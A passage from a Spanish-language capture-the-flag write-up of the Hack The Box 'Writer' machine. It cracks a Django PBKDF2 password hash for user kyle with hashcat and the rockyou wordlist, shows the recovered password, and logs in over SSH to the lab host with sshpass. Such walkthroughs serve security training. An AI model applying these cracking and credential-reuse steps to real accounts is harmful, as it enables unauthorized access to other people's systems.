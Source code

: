 Y encontramos el nuevamente al usuario kyle, pero esta vez tenemos un hash que nos podría servir para convertirnos en el, así que en nuestra máquina guardamos el hash

```bash
~$> echo "pbkdf2_sha256\$260000\$wJO3ztk0fOlcbssnS1wJPD\$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=" > hash
```
Buscamos el modo que nos sirve para romperlo con hashcat

```bash
~$> hashcat --example-hashes | grep "pbkdf2_sha256" -C 2
MODE: 10000
TYPE: Django (PBKDF2-SHA256)
HASH: pbkdf2_sha256$10000$1135411628$bFYX62rfJobJ07VwrUMXfuffLfj2RDM2G6/BrTrUWkE=
PASS: hashcat
```
Aquí podemos ver que el modo que nos sirve es el ```10000```, entonces usamos ```**hashcat**``` de esta forma:

```bash
~$> hashcat -m 10000 -a 0 hash --wordlist /usr/share/wordlists/rockyou.txt
```

Y despues de un rato

<p align="center">
<img src="/assets/images/htb-writeup-writer/hashcat.png">
</p>

Obtenemos la pass

```bash
~$> hashcat -m 10000 -a 0 --show hash
pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=:marcoantonio
```
Con esta podemos conectarnos por ssh como el usuario kyle, ya que como vimos al inicio el puerto ```22``` (ssh) está habilitado

```bash
~$> sshpass -p 'marcoantonio' ssh kyle@10.10.11.101
```
<p align="center">